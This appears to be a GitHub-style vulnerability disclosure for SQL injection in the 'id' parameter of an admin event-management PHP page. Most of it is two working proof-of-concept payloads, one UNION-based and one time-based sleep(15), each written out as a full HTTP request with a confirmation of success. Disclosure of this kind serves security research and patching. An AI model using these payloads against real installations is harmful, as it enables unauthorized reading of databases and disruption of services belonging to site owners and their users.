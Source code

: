 BUG_Author:LiZhang

Vulnerability File: /odjms/admin/events/manage_event.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,concat(0x414243,0x7576777879),null,null,null,null-- -

```
GET /odjms/admin/events/manage_event.php?id=-1%27%20union%20all%20select%20null,null,concat(0x414243,0x7576777879),null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fadnbe58h1fq1i9pdtcrr5juc1
Connection: close
```

union query success

![image](https://github.com/aieouZZ/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(15)))l) and 'v'='v

```
GET /odjms/admin/events/manage_event.php?id=1%27%20and%20(select%201%20from%20(select(sleep(15)))l)%20and%20%27v%27=%27v HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fadnbe58h1fq1i9pdtcrr5juc1
Connection: close
```

The server's response time is 15 seconds

![image](https://github.com/aieouZZ/bug_report/blob/main/sql2.png)
